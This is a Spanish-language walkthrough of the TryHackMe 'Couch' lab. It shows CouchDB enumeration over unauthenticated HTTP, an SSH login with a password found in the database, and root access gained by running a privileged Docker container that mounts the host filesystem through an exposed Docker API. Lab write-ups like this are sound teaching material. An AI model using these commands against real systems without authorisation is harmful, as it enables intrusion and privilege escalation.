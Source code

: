 ```yaml
---
title: Couch (Try Hack Me)
author: J0lm3d0
date: 2021-11-12 12:00:00 +0200
categories: [TryHackMe]
tags: [linux, couchdb, docker]
pin: false
---
```


En este documento se recogen los pasos a seguir para la resolución de la máquina Couch de la plataforma TryHackMe. Se trata de una máquina Linux de 64 bits, que posee una dificultad fácil de resolución según la plataforma.

![Logo de la máquina](/assets/img/THM/Couch/machine.png)

[Write-up en PDF realizado mediante LaTeX](/pdfs/Write_up_Couch.pdf)

## Enumeración de servicios y recopilación de información sensible

Lo primero a realizar es un escaneo de todo el rango de puertos TCP mediante la herramienta `Nmap`.

```
# nmap -p- --open -T5 -n -vv 10.10.141.129

Not shown: 65182 closed ports, 351 filtered ports
Reason: 65182 resets and 351 no-responses
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5984/tcp open  couchdb syn-ack ttl 63
```

Tras obtener los puertos que la máquina tiene abiertos, aplico scripts básicos de enumeración y utilizo la flag -sV para intentar conocer la versión y servicio que están ejecutando cada uno de esos puertos.

```bash
# nmap -p22,5984 -sC -sV 10.10.141.129

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Veo que, aparte del servicio SSH, nos encontramos un servicio `Apache CouchDb`, que se trata una base de datos de documentos NoSQL de código abierto que recopila y almacena datos en documentos basados en JSON. A diferencia de las bases de datos relacionales, CouchDB utiliza un modelo de datos sin esquema, que simplifica la gestión de registros en varios dispositivos informáticos. Al detectar la versión utilizada en el escaneo, pruebo a buscar exploits mediante la herramienta `SearchSploit`, encontrando un exploit que puede aplicar en dicha versión.

```
# searchsploit couchdb 1.6.1
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache CouchDB < 2.1.0 - Remote Code Execution                                                                                                                                                           | linux/webapps/44913.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Pero, tras hacer varias pruebas, compruebo que la vulnerabilidad que explota este script está subsanada o no aplica, ya que al realizar la petición POST que ejecutaría el comando, me da una respuesta "401 Unauthorized". Para continuar, accedo al servicio a través del navegador.

![Página principal del servidor web](/assets/img/THM/Couch/mainpage.png)

Buscando información en internet, encuentro el siguiente [artículo](https://book.hacktricks.xyz/pentesting/5984-pentesting-couchdb) en el que se explica como enumerar de forma manual las bases de datos de CouchDB a través de peticiones HTTP. A continuación, se ve el listado de bases de datos creadas, de las cuales las que más me llaman la atención son "_users" y "secret".

```
# curl -s -X GET http://10.10.141.129:5984/_all_dbs | jq
[
  "_replicator",
  "_users",
  "couch",
  "secret",
  "test_suite_db",
  "test_suite_db2"
]
```

## Acceso a la máquina

Tras enumerar más a fondo esas 2 bases de datos, encuentro en "secret" un documento que contiene una variable "passwordbackup" con unas credenciales.

```
# curl -s -X GET http://10.10.141.129:5984/secret/a1320dd69fb4570d0a3d26df4e000be7 | jq
{
  "_id": "a1320dd69fb4570d0a3d26df4e000be7",
  "_rev": "2-57b28bd986d343cacd9cb3fca0b20c46",
  "passwordbackup": "atena:t4qfzcc4qN##"
}
```

Con las credenciales obtenidas, logro conectarme a la máquina por SSH y obtengo la primera flag.

```
atena@ubuntu:~$ cat user.txt

THM{1ns3cure_couchdb}
```

## Escalada de privilegios

Enumerando el sistema para escalar privilegios, descubro que root está ejecutando un contenedor de Docker. Además, en el histórico de "bash" había encontrado un comando en el que se ejecutaba un contenedor de Docker con privilegios.

```
atena@ubuntu:~$ ps -faux

root       821  0.0  1.2 395632  6424 ?        Ssl  11:42   0:02 /usr/bin/containerd
root       827  0.0  2.6 451700 13028 ?        Ssl  11:42   0:04 /usr/bin/dockerd -H=fd:// -H=tcp://127.0.0.1:2375

atena@ubuntu:~$ cat .bash_history

docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Al volver a desplegar el histórico para copiar el comando, veo que se está creando una carpeta compartida en el directorio "/mnt" del contenedor, que contendrá el directorio raíz de la máquina anfitrión. Por tanto, al acceder al contenedor como root, puedo visualizar la flag que se encuentra en la máquina "host" en la ruta "/mnt/root/root.txt". Para conseguir una shell en la máquina anfitrión, solo tendría que, por ejemplo, asignar un permiso SUID a cualquier binario que permita obtener una shell o editar el fichero "/etc/sudoers" para que el usuario "atena", no privilegiado, pueda ejecutar comandos como root sin proporcionar contraseña.

```
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

/ # id

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

/ # cat /mnt/root/root.txt 

THM{RCE_us1ng_Docker_API}
```

Además, a modo de curiosidad, explico una forma para poder ejecutar el contenedor de la máquina víctima en nuestra máquina de atacante en este caso.

Al ver el proceso de Docker en el listado de procesos, observo que emplea la flag -H, utilizada para indicar el socket del demonio (daemon) de Docker al que se debe conectar el contenedor. El daemon de Docker es capaz de comunicarse con la API de Docker a través de 3 difentes tipos de socket: "unix", "tcp" y "fd". En este caso, se especificaban 2 tipos, un socket "fd" y un socket "tcp" que apuntaba a la propia máquina (localhost) por el puerto 2375.

De esta forma, como cuento con credenciales para el servicio SSH, podría realizar un Local Port Forwarding de tal forma que el puerto 2375 de mi máquina reenvíase las peticiones al puerto 2375 de la máquina víctima. De esta forma, podría lanzar el contenedor de docker en mi propia máquina.

![Local Port Forwarding del puerto 2375 mediante SSH](/assets/img/THM/Couch/lpf.png)

![Ejecutamos el contenedor en nuestra máquina de atacante](/assets/img/THM/Couch//offsecdocker.png)

Más información en la web de [Docker](https://docs.docker.com/engine/reference/commandline/dockerd/).